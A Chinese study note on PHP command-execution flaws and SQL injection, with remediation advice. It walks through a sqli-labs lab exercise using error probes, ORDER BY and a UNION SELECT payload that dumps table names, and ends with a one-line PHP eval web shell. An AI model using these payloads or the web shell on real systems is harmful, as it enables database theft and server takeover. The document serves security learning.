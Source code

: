 ```yaml
---

title: 第五周学习笔记--命令执行漏洞
date: 2020-09-14 17:43:45
categories: 笔记
description: 应用有时需要调用一些执行系统命令的函数，当用户能控制这些函数的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。

---
```

# 第五周学习笔记

## 命令执行漏洞

- **命令执行漏洞原理：**
  应用有时需要调用一些执行系统命令的函数，当用户能控制这些函数的参数时，就可以将恶意系统命令拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。

- **常见php执行系统命令函数**

  ```
  system（）
  exec（）
  shell_exec（）
  passthru（）
  pcntl_exec（）
  popen（）
  proc_open（）
  反引号
  ```

- **漏洞危害：**

  1. 继承Web服务程序的权限去执行系统命令或读写文件
  2. 控制整个网站甚至服务器
  3. 进一步内网渗透

- **漏洞修复：**

  1. 尽量少用执行命令的函数或者直接禁用
  2. 参数值尽量使用引号包括
  3. 在使用动态函数之前，确保使用的函数是指定的函数之一
  4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义
  5. 对PHP语言来说，不能完全控制的危险函数最好不要使用

## SQL注入练习

靶机：http://175.24.71.146:18003/Less-1/?id=1

通过实验得：

```
?id=1'`  ：显示异常

?id=1'--+`  ：正常
```

通过order by 确定字段数为3

```
?id=1' order by 1,2,3--+`
?id=1' order by 1,2,3,4--+`
```

然后通过联合查询进行SQL注入

```
http://175.24.71.146:18003/Less-1/?id=-1 union select 1,2，(select GROUP_CONCAT(table_name) from information_schema.tables where TABLE_SCHEMA= security)--+
```

![批注 2020-07-16 094253](C:\Users\captain\Desktop\笔记\批注 2020-07-16 094253.png)

## 漏洞原理

- $sql语句存在变量的拼接，可以被我们控制，变成其他内容


## 修复漏洞

- 通过强制转换为整数intval，过滤字符

- 使用参数化查询接口或在代码级对带入SQL语句中的外部参数进行转义或过滤；

- 对于整数，判断变量是否符合[0-9]的值；其他限定值，也可以进行合法性校验；

- 对于字符串，对SQL语句特殊字符进行转义(单引号转成两个单引号，双引号转成两个双引号)。

  

## 一句话木马

```php
<?php
@eval($_POST['hack']);
```

常用两个工具：菜刀和蚁剑（ant）